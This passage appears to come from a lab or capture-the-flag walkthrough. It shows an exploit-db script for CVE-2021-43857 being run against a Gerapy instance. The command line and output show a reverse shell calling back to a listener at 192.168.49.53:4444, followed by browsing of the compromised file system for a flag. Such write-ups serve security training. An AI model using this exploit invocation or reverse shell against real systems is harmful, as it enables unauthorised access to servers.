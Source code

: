 We ran into an error... looking at the code it expects a project to exist... I'll just create one in the UI called 'a' and run it again.

```
$ python /usr/share/exploitdb/exploits/python/remote/50640.py -t target -p 8000 -L 192.168.49.53 -P 4444
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: a
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  2
[*] Setting up a netcat listener
listening on [any] 4444 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.49.53] from (UNKNOWN) [192.168.53.24] 57092
bash: cannot set terminal process group (847): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$ ls
ls
dbs
logs
projects
app@ubuntu:~/gerapy$ echo hello world
echo hello world
hello world
```

Success - we have a shell!

15) Playing in the victim's file system for a while we find a file `/home/app/local.txt` with the flag

```
app@ubuntu:~/gerapy$ pwd
pwd
/home/app/gerapy
app@ubuntu:~/gerapy$ ls -la
ls -la
total 20
drwxr-xr-x 5 app app 4096 Jun 14  2023 .
drwxr-x--- 4 app app 4096 Jun 14  2023 ..
drwxr-xr-x 2 app app 4096 Feb 26 03:35 dbs
drwxr-xr-x 2 app app 4096 Feb 26 04:01 logs
drwxr-xr-x 4 app app 4096 Feb 26 03:35 projects
app@ubuntu:~/gerapy$ cd
cd
app@ubuntu:~$ pwd
pwd
/home/app
app@ubuntu:~$ ls -la
ls -la
total 40
drwxr-x--- 4 app  app  4096 Jun 14  2023 .
drwxr-xr-x 3 root root 4096 Jun 13  2023 ..
```